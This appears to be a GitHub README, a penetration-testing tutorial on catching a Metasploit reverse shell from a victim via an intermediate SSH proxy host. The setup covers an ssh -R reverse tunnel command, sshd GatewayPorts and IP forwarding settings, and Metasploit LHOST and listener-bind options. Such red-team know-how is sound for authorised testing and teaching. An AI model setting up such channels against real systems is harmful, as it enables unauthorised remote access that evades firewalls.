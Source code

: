 # Reverse shell from behind a firewall using an intermediate SSH host

## Scenario
The following describes overcoming a scenario where your Metasploit instance does not have inbound connectivity for a reverse shell on a target machine to connect to. It assumes you cannot use a bind shell on the victim as an alternative.

The attacking machine could be hosted in a private network, behind a firewall with NAT or even connected to the Tor network with only outbound connectivity possible.

![Image](images/1.png)

The payload used for the reverse shell can be anything desired from Metasploit's suite of reverse payloads.

## Setup
The prerequisite is you have access to a secondary host which the target victim host will connect to on successful exploitation. In this example we will be using the SSH protocol to proxy the connections.

Take note of the direction of the arrows in the following diagram. The attacking host (192.168.0.1) can establish a connection to the proxy host (10.0.0.1) and can also reach victim host (172.16.0.1). The vicim host can connect to the proxy host -

![Image](images/2.png)

Before exploitation, a reverse SSH tunnel is established from the attacking host to the proxy host by invoking the ssh client with the `-R` switch. Connections are forwarded to localhost. In this example, port 4444 is used for both the local and remote bind port -

```bash
ssh -f -N -T user@10.0.0.1 -R 4444:127.0.0.1:4444
```
![Image](images/3.png)

By default, SSHD will listen to the loopback interface only on the remote host. We want to allow external connectivity to port 4444 on our proxy host so our victim host can connect. Configure `GatewayPorts yes` in `/etc/ssh/sshd_config` on the SSH proxy so the socket listens on 0.0.0.0. You can verify this is working (i.e 0.0.0.0) -

``` bash
$ netstat -tan | grep 4444
tcp        0      0 0.0.0.0:4444           0.0.0.0:*               LISTEN     
tcp6       0      0 :::4444                :::*                    LISTEN     
```

Note: Ensure IPv4 forwarding is enabled on the SSH proxy, i.e.  
`sysctl -w net.ipv4.ip_forward=1` and the firewall rules on the permits inbound traffic on port 4444.

Now everything is setup, the exploit is triggered from Metasploit, invoking a reverse shell payload on the victim host. The victim host establishes a connection to the proxy host, rather then the attacking machine -

![Image](images/4.png)

As there is a reverse tunnel bound to port 4444, the victim's reverse shell will effectively be proxied to the attacker over the reverse SSH tunnel. We then obtain a reverse shell -

![Image](images/5.png)

There are two settings that must be configured in Metasploit for this to work -

1. Set LHOST to the IP address of the SSH proxy server, otherwise the payload executed on the victim will attempt to connect to the non-routable IP address bound to the attacker host (192.168.0.1)

2. By default Metasploit will bind to interface address specified by LHOST. Configure reverse listener to bind to the loopback address or all interfaces with `ReverseListenerBindAddress 0.0.0.0`

## Example
Recapping and putting this all together with an example payload -

1) On the attacking machine, connect to the SSH proxy and create a reverse tunnel -

```
# ssh -f -N -T user@10.0.0.1 -R 4444:127.0.0.1:4444
```

2) Open msfconsole and configure and execute -  

![Image](images/7.png)
